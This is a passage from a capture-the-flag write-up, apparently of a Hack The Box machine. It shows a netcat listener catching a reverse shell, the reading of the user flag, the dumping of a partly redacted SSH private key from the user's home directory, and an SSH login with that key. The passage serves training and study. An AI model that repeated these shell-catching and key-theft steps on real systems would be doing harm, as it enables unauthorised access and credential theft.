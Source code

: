 ```bash
nc -nvlp 7777
Listening on 0.0.0.0 7777
Connection received on 10.10.11.33 55008
bash: cannot set terminal process group (1320): Inappropriate ioctl for device
bash: no job control in this shell
margo@caption:~$ id
id
uid=1000(margo) gid=1000(margo) groups=1000(margo)
margo@caption:~$ cat user.txt
cat user.txt
f12bb3cf407a--------------------
```

I'll get an ssh session for a more responsive shell.

```bash
margo@caption:~$ ls .ssh
ls .ssh
authorized_keys
id_ecdsa
id_ecdsa.pub
margo@caption:~$ cat .ssh/id_ecdsa
cat .ssh/id_ecdsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAaAAAABNlY2RzYS1zaGEy
LW5pc3RwMjU2AAAACG5pc3RwMjU2AAAAQQTZ6f4YH+32O7yXhlrx54Inu/9KJlrbceOWisd1bhn4
nww3mmTo4qQOInYbGKZRIAo04PxtYGMBKcUtY7n7y5DaAAAAoLgGQ/e4BkP3AAAAE2VjZHNhLXNo
YTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAAB-----------------------------------------
GfifDDeaZOjipA4idhsYplEgCjTg/G1gYwE-----------------------------------------
m2a5EeFDN0A9wDhehbkAAAAAAQIDBAUGBwg=
-----END OPENSSH PRIVATE KEY-----
```

```bash
ssh -i margo_rsa margo@caption.htb
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Thu Sep 19 09:07:25 PM UTC 2024

  System load:  0.01              Processes:             236
  Usage of /:   69.8% of 8.76GB   Users logged in:       0
  Memory usage: 33%               IPv4 address for eth0: 10.10.11.33
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

3 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Sep 10 12:33:42 2024 from 10.10.14.23
margo@caption:~$
```
